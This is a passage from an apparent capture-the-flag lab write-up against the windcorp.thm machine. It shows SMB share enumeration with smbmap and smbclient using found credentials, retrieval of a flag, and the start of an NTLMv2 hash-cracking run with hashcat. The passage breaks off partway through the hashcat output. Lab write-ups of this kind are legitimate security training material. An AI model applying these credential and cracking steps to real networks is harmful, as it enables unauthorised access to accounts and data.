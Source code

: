 Let's try instead logging in with the username and the password that we have got. We use `smbmap` to enumerate the drives across an entire domain.

```
❯ smbmap -u lilyle -p ChangeMe#1234 -H windcorp.thm
[+] IP: windcorp.thm:445        Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Shared                                                  READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share 
        Users                                                   READ ONLY

```

Let's try going in using `smbclient`.

`❯ smbclient //10.10.73.52/Shared -U lilyle --password ChangeMe#1234`

```
smb: \> ls
  .                                   D        0  Fri May 29 20:45:42 2020
  ..                                  D        0  Fri May 29 20:45:42 2020
  Flag 1.txt                          A       45  Fri May  1 11:32:36 2020
  spark_2_8_3.deb                     A 29526628  Fri May 29 20:45:01 2020
  spark_2_8_3.dmg                     A 99555201  Sun May  3 07:06:58 2020
  spark_2_8_3.exe                     A 78765568  Sun May  3 07:05:56 2020
  spark_2_8_3.tar.gz                  A 123216290  Sun May  3 07:07:24 2020

                15587583 blocks of size 4096. 10913105 blocks available
smb: \> get "Flag 1.txt"
getting file \Flag 1.txt of size 45 as Flag 1.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

Then cat it on your system. First flag done!

## 3. Foothold

Now this spark thing has been popping up a lot, and I see no other alternative to go. Can't be bothered to download the actual `.deb`, so I'll just get from here :P

At this point, you'd install the deb and do some magic, which I couldn't. Some java bt (bad time). So, I went to a writeup, and took this NTLMv2 hash, and restarted from there.

(btw ... buse, the person whom we use is the one on the IT staff list)

```
❯ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i3-6006U CPU @ 2.00GHz, 2726/2790 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
```